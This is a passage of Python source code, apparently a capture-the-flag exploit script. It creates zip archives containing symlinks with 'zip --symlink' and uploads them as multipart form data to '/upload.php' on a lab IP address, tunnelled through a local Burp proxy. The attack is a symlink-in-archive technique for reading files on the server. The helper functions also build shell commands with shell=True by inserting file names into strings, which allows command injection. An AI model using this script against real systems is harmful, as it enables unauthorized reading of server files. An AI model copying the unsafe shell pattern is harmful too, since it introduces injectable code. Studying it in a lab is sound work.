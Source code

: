 ```python
        capture_output=True,
        text=True
    )
    # print(res.stdout)
    # print(res.stderr)


def do_the_zip(file_name):
    res = subprocess.run(
        [f"rm {file_name}.zip"],
        shell=True,
        capture_output=True,
        text=True
    )
    # print(res.stdout)
    # print(res.stderr)

    res = subprocess.run(    # noqa F841
        [f"zip --symlink -r {file_name}.zip {file_name}.pdf"],
        shell=True,
        capture_output=True,
        text=True
    )
    # print(res.stdout)
    # print(res.stderr)


def send_the_zip(file_name):

    # Prepare the file content
    file_path = f"{file_name}.zip"
    with open(file_path, "rb") as f:
        file_content = f.read()

    # Define the boundary
    boundary = str(uuid.uuid4())
    headers = {
        'Content-Type': f"multipart/form-data; boundary={boundary}",
    }

    # Create HTTP connection proxied through burp
    conn = http.client.HTTPConnection("127.0.0.1", port="8080")
    conn.set_tunnel(
      "10.10.11.229"
    )

    # Create multipart/form-data payload
    payload = \
        f"--{boundary}\r\n" \
        "Content-Disposition: form-data; name=\"zipFile\"; " \
        f"filename=\"{file_name}.zip\"\r\n" \
        "Content-Type: application/zip\r\n" \
        "\r\n".encode() + file_content + "\r\n" \
        f"--{boundary}\r\n" \
        "Content-Disposition: form-data; name=\"submit\"\r\n" \
        "\r\n" \
        "\r\n" \
        f"--{boundary}--\r\n".encode()

    # Send the request
    conn.request("POST", "/upload.php", body=payload, headers=headers)

    # Get the response
```